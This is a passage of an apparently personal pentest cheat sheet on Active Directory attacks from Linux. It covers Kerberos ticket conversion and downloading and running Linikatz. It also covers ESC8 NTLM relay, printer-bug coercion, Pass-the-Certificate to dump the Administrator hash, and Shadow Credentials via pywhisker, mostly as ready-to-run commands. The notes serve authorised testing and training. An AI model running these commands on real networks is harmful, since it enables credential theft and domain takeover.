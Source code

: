 ### Misc

If we want to use a ccache file in Windows or a kirbi file in a Linux machine, we can use impacket-ticketConverter to convert them.
````
$ impacket-ticketConverter krb5cc_647401106_I8I133 <user>.kirbi
````

**Linikatz**

Linikatz is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to Mimikatz to UNIX environments.
````
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
````

## Pass the Certificate

Pass-the-Certificate refers to the technique of using X.509 certificates to successfully obtain Ticket Granting Tickets (TGTs). This method is used primarily alongside attacks against Active Directory Certificate Services (AD CS), as well as in Shadow Credential attacks.

**AD CS NTLM Relay Attack (ESC8)**

ESC8—as described in the Certified Pre-Owned paper—is an NTLM relay attack targeting an ADCS HTTP endpoint.
Attackers can use Impacket’s ntlmrelayx to listen for inbound connections and relay them to the web enrollment service using the following command:
````
$ impacket-ntlmrelayx -t http://<IP-Server>/certsrv/certfnsh.asp --adcs -smb2support --template KerberosAuthentication
````
Attackers can either wait for victims to attempt authentication against their machine randomly, or they can actively coerce them into doing so. One way to force machine accounts to authenticate against arbitrary hosts is by exploiting the printer bug. 
````
$ python3 printerbug.py <domain>/<user>:"<password>"@<IP-Server> <IP-Attacker>
````

We can now perform a Pass-the-Certificate attack to obtain a TGT as DC01$. One way to do this is by using gettgtpkinit.py.
````
$ python3 gettgtpkinit.py -cert-pfx <cert-gotit>.pfx -dc-ip <IP-DC> '<domain>/<user-certificate>' <file>.ccache
$ export KRB5CCNAME=<file>.ccache
$ impacket-secretsdump -k -no-pass -dc-ip <IP-DC> -just-dc-user Administrator '<domain>/<user-certificate>'@<IP>
````

**Shadow Credentials (msDS-KeyCredentialLink)**

Shadow Credentials refers to an Active Directory attack that abuses the msDS-KeyCredentialLink attribute of a victim user. This attribute stores public keys that can be used for authentication via PKINIT. In BloodHound, the AddKeyCredentialLink edge indicates that one user has write permissions over another user's msDS-KeyCredentialLink attribute, allowing them to take control of that user.
We can use pywhisker to perform this attack from a Linux system. The command below generates an X.509 certificate and writes the public key to the victim user's msDS-KeyCredentialLink attribute:
````
https://github.com/ShutdownRepo/pywhisker
$ pywhisker --dc-ip <IP-DC> -d <domain> -u <user-controlled> -p '<password>' --target <user-target> --action add
$ python3 gettgtpkinit.py -cert-pfx <cert-gen-pywhisker>.pfx -pfx-pass '<pywhisker-pass>' -dc-ip <IP-DC> '<domain>/<user-certificate>' <file>.ccache
$ export KRB5CCNAME=/tmp/jpinkman.ccache
````

